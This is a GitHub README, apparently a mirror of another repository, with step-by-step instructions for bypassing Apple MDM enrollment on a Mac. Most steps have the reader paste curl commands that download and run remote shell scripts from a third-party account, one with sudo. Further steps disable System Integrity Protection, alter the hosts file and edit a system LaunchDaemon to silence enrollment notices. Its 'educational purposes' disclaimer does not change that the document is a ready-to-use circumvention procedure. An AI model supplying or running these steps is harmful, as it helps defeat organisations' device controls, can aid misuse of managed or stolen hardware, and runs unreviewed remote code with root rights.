 # skipmdm.com

_***Disclaimer***_

* This repository is just a replica of this [GitHub](https://github.com/skipmdm-phoenixbot/skipmdm.com) repository.
* I do not own any information here and neither am I promoting any information here.
* All steps, scripts and information here are to be used for educational/testing purposes only.



## Steps

1. Shutdown the device
2. **Initial Disk Format**
	1. Enter Recovery mode - 1st time
	2. Format the disk completely using disk utility
	3. Shutdown the device
3. **OS installation**
	1. Enter Recovery mode - 2nd time
	2. Connect device to the internet to download the recovery mode software
	3. Once downloaded, install the latest available OS
	4. After the OS has been installed completely, shutdown
	5. If the machine restarts automatically and reaches the Country selection page, force shutdown the device at this stage
4. **Performing MDM Auto-by-pass**
	1. Enter Recovery mode - 3rd time
	2. Open the internet browser - S@F@R!
		1. Goto this URL - `https://github.com/zupinguk/skipmdm.com`
		2. Copy the following - `curl https://raw.githubusercontent.com/zupinguk/skipmdm.com/main/mdm-autobypass.sh -o mdm-autobypass.sh && chmod +x ./mdm-autobypass.sh && ./mdm-autobypass.sh`
		3. Exit out of the browser
	3. Open the CLI - T3RMIN@L
		1. Paste the contents from the clipboard
		2. Follow the steps
		3. When done either type `reboot` or shutdown the device
5. Let the device start at this time
6. **New user account creation**
	1. Once the boot process is complete
	2. Create a new user account
	3. Logout from the current/temporary account
	4. Login via the new username
	5. Delete the temporary account
	6. Shutdown
7. **Disable CSR Utility**
	1. Enter Recovery mode - 4th time
	2. Open the CLI - T3RMIN@L
	3. Type to disable SIP: `csrutil disable`
	4. When done either type `reboot` or restart the device
8. Login using the newly created username

9.  **Fix - MDM-Profile**
	1. Goto this URL - `https://github.com/zupinguk/skipmdm.com`
	2. Copy the following - `curl https://raw.githubusercontent.com/zupinguk/skipmdm.com/main/mdm-config.sh -o mdm-config.sh && chmod +x ./mdm-config.sh && ./mdm-config.sh`
	3. Open CLI - T3RMIN@L
		1. Paste the contents from the clipboard
		2. Follow the steps
	4. Reboot the device if performing this step only. Otherwise goto next step

10. **Fix - MDM-HostFile**
	1. Goto this URL - `https://github.com/zupinguk/skipmdm.com`
	2. Copy the following - `curl https://raw.githubusercontent.com/zupinguk/skipmdm.com/main/mdm-hostfile.sh -o mdm-hostfile.sh && chmod +x ./mdm-hostfile.sh && sudo ./mdm-hostfile.sh`
	3. Open CLI - T3RMIN@L
		1. Paste the contents from the clipboard
		2. Follow the steps
	4. Reboot the device if performing this step only. Otherwise goto next step

11. **Disable Device Enrollment Notification**
	1. Goto this URL - `https://github.com/zupinguk/skipmdm.com`
	12. Copy the following - `sudo open /System/Applications/TextEdit.app /System/Library/LaunchDaemons/com.apple.ManagedClient.enroll.plist`
	23. To edit `com.apple.ManagedClient.enroll.plist`
		1. Open CLI - T3RMIN@L
		2. Paste the contents from the clipboard
		3. change
		4. `<true/>` under `<key>com.apple.ManagedClient.enroll</key>`
		5. to
		6. `<false/>`
		7. Reboot the device if performing this step only. Otherwise goto next step

12. **Reboot** the device



## References

* https://skipmdm.com
* https://github.com/skipmdm-phoenixbot/skipmdm.com
* https://gist.github.com/henrik242/65d26a7deca30bdb9828e183809690bd?permalink_comment_id=4710662#gistcomment-4710662
* https://gist.github.com/sghiassy/a3927405cf4ffe81242f4ecb01c382ac?permalink_comment_id=4591775

